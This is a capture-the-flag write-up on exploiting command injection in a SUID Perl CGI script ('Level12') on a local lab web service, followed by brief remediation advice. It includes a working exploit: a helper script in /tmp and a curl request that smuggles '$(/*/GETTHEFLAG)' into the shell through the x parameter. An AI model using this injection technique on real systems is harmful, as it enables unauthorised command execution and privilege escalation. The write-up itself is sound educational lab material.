

# Level12 - Command Injection in SUID Perl CGI

## Descrption

A Perl script `level12.pl` runs as `flag12` through a local web service on `localhost:4646`.
Inspecting the code revealed that user input from the parameter `x` is used in the following command:

```bash
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

The input is modified (uppercased and truncated at whitespace), but it is not properly sanitized. 
Since it is executed inside backticks, it is interpreted by the shell, which makes command injection possible.

## Exploitation

First, a small script was created:

```bash
echo '#!/bin/sh' > /tmp/GETTHEFLAG
echo 'getflag > /tmp/pass.txt' >> /tmp/GETTHEFLAG
chmod +x /tmp/GETTHEFLAG
```

Then, I sent a request with a payload using a wildcard-based payload to avoid hardcoding the full path:

```bash
curl 'http://localhost:4646/?x=$(/*/GETTHEFLAG)'
```

The payload is interpreted by the shell, executes the script with `flag12` privileges, and writes the flag to `/tmp/pass.txt`.

## Remediation
- Do not execute user input in shell commands
- Validate and sanitize all inputs
- Avoid using backticks in scripts

## Conclusion

This vulnerability demonstrates that insufficient input sanitization in privileged scripts can lead to command injection and privilege escalation.


